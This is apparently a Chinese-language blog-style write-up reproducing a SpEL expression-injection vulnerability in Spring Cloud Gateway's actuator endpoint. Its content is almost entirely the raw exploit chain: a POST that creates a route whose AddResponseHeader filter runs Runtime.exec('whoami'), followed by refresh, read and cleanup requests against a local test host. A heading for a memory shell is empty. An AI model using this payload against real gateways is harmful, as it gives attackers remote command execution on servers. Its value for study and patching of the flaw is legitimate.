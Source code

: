## SpringBoot GatewayEL表达式漏洞分析

### 前言





----



### 漏洞复现

```http
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: 127.0.0.1:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json
Content-Length: 368

{
      "id": "hacktest",
      "filters": [{
        "name": "AddResponseHeader",
        "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String(\"whoami\")).getInputStream()))}"}
        }],
      "uri": "http://example.com",
      "order": 0
}
```

![image-20220417165248745](https://cdn.jsdelivr.net/gh/SummerSec/Images/2022/03/48u5248ec48u5248ec.png)



---

```http
POST /actuator/gateway/refresh HTTP/1.1
Host: 127.0.0.1:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![image-20220417165229679](https://cdn.jsdelivr.net/gh/SummerSec/Images/2022/03/36u5236ec36u5236ec.png)



```http
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: 127.0.0.1:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded


```

![image-20220417170055653](https://cdn.jsdelivr.net/gh/SummerSec/Images/2022/03/55u055ec55u055ec.png)







```http
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: 127.0.0.1:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![image-20220417165316424](https://cdn.jsdelivr.net/gh/SummerSec/Images/2022/03/16u5316ec16u5316ec.png)

```http
POST /actuator/gateway/refresh HTTP/1.1
Host: 127.0.0.1:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```



![image-20220417165324564](https://cdn.jsdelivr.net/gh/SummerSec/Images/2022/03/24u5324ec24u5324ec.png)

----

内存马：









### 参考





